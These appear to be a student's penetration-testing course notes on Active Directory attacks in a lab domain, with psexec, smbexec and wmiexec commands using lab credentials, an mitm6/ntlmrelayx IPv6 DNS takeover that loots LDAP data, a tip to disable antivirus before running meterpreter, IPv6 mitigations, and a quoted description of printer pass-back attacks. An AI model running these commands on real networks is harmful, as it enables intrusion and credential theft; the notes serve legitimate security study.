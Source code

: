 2. psexec.py
```bash
psexec.py --help #for tool info
psexec.py marvel.local/fcastle:Password@192.168.57.141 #user, pass, and IP
#if works can try smbexec and wmiexec 
smbexec.py marvel.local/fcastle:Password@192.168.57.141 #smb
wmiexec.py marvel.local/fcastle:Password@192.168.57.141 #wmi
```

heath tip - psexec is noisy, start with smb or wmi to see if you can get shell >> if shell, can navigate C drive and issue commands >> figure out if AV is running, disable to run meterpreter

# IPv6 Attacks
`DNS takeover` attack is heath go-to 
*need mitm6 installed* - https://github.com/dirkjanm/mitm6
- mitm6: [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- Combining NTLM Relays and Kerberos Delegation: [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

IPv6 DNS Takeover via mitm6
```bash
ntlmrelayx.py -6 -t ldaps://[domain contoller IP] -wh fakewpad.marvel.local -l lootme #-l = loot directory
cd lootme
ls #see collected loot
firefox domain_users_by_group.html #gold table

# >> keep mitm connection alive, observer and save any juicy captured information
```

## IPv6 Defenses
Mitigation Strategies
- disable IPv6
- recommended: block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy
- is WPAD is not in use, disable
- Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding
- consider admin users to the protected users group or marking them as account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation

# Passback Attacks
Printer attack
A Pen Tester’s Guide to Printer Hacking - [https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)

looking for something that has a connection to LDAP or SMB, something we can utilize

#### **Introducing the Pass-Back Attack**
The stored LDAP credentials are usually located on the network settings tab in the online configuration of the MFP and can typically be accessed via the Embedded Web Service (EWS). If you can reach the EWS and modify the LDAP server field by replacing the legitimate LDAP server with your malicious LDAP server, then the next time an LDAP query is conducted from the MFP, it will attempt to authenticate to your LDAP server using the configured credentials or the user-supplied credentials. 
